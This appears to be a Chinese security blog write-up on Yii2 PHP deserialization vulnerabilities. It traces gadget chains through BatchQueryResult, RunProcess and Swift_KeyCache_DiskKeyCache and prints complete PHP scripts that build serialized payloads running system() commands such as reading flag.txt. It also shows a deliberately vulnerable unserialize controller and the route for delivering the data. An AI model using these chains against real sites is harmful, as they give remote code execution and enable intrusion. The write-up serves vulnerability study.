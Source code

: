 # 原创
：  Yii2反序列化漏洞

# Yii2反序列化漏洞

#### Yii2反序列化漏洞

## 环境搭建

> 



## 反序列化链寻找

> 
在不知道具体细节的情况下，我们可以通过github的change log来观察它的更新情况


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210526213153195.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210526213159981.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

### BatchQueryResult (版本&lt;2.0.38)

> 
**起点：**<br/> __destruct 后执行 reset方法，其中 _dataReader可控，现在就是找某个类的close方法，或是call方法，多次尝试之后，还是要通过call方法来触发


> 
**Generator类：**<br/> 这里的call_user_func_array 虽然我们不能控制参数，但是可以控制方法，以数组的方式来执行方法；<br/> 这里的formatter确定了是 close ，但是formatters是我们可以操控的，所以只要设置`formatters[‘close’]=array(‘类名’,‘方法’)`，即可执行一个类的无参方法，此处可以直接用正则找到无参方法中含有call_user_func的类`function \w+\(\) ?\n?\{(.*\n)+call_user_func`


<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/2021052622522324.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210526225230758.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
**rest\IndexAction类：**<br/> 两个参数都可控，那么可以直接命令执行，构造poc


> 
POP链


```
&lt;?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this-&gt;checkAccess = 'system';
            $this-&gt;id = 'dir';
        }
    }
}
namespace Faker{
    use yii\rest\CreateAction;
    class Generator{
        protected $formatters;
        public function __construct(){
            $this-&gt;formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}
namespace yii\db{
    use Faker\Generator;
    class BatchQueryResult{
        private $_dataReader;
        public function __construct(){
            $this-&gt;_dataReader = new Generator;
        }
    }
}
namespace{
    echo base64_encode(serialize(new yii\db\BatchQueryResult()));
}
?&gt;

```

> 
在控制器中加上一个反序列化的操作；在controllers目录下新建一个SerController.php，内容如下：


```
&lt;?php

namespace app\controllers;

class SerController extends \yii\web\Controller{
    public function actionUnser($data){
        return unserialize(base64_decode($data));
    }
}

```

> 
Yii2的路由方式是 index.php?r=控制器名/方法名<br/> 所以直接 index.php?r=ser/unser&amp;data=反序列化数据


### RunProcess

> 
在Yii2.0.38中将上面BatchQueryResult添加了__wakeup方法，导致不能作为起点，但是直接搜__destruct还是能找到其他的起点的，RunProcess类


> 
这里processes可控，还是可以用上一条链的后半部分<br/> POP链


```
&lt;?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this-&gt;checkAccess = 'system';
            $this-&gt;id = 'tac flag.txt &amp;&amp; ls';
        }
    }
}
namespace Faker{
    use yii\rest\CreateAction;
    class Generator{
        protected $formatters;
        public function __construct(){
            $this-&gt;formatters['isRunning'] = [new CreateAction(), 'run'];
        }
    }
}
namespace Codeception\Extension{
    use Faker\Generator;
    class RunProcess{
        private $processes;
        public function __construct()
        {
            $this-&gt;processes = [new Generator()];
        }
    }
}
namespace{
    // 生成poc
    echo base64_encode(serialize(new Codeception\Extension\RunProcess()));
}
?&gt;

```

### Swift_KeyCache_DiskKeyCache

<img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210527111650641.png#pic_center"/><br/> <img alt="在这里插入图片描述" src="https://img-blog.csdnimg.cn/20210527111708728.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center"/>

> 
path可控，可以触发tostring方法


> 
POP链


```
&lt;?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this-&gt;checkAccess = 'system';
            $this-&gt;id = 'tac flag.txt &amp;&amp; dir';
        }
    }
}
namespace Faker{
    use yii\rest\CreateAction;
    class Generator{
        protected $formatters;
        public function __construct(){
            $this-&gt;formatters['saveXML'] = [new CreateAction(), 'run'];
        }
    }
}
namespace Codeception\Util{
    use Faker\Generator;
    class XmlBuilder{
        protected $__dom__;
        public function __construct(){
            $this-&gt;__dom__= new Generator();
        }
    }
}
namespace{
    use Codeception\Util\XmlBuilder;
    class Swift_KeyCache_DiskKeyCache{
        private $path;
        private $keys = [];
        public function __construct(){
            $this-&gt;path = new XmlBuilder();
            $this-&gt;keys = array(
                "null"=&gt;"a"
            );
        }
    }
    echo base64_encode(serialize(new Swift_KeyCache_DiskKeyCache));
}

```

> 
与此类似的POP链还有


```
Swift\KeyCache\DiskKeyCache::__destruct()
-&gt;
src\DocBlock\Tags\See.php::__toString()
-&gt;
Faker\Generator::__call()
-&gt;
yii\rest\IndexAction::run()

```

```
Swift\KeyCache\DiskKeyCache::__destruct()
-&gt;
src\DocBlock\Description.php::__toString()
-&gt;
Faker\Generator::__call()
-&gt;
yii\rest\IndexAction::run()

```
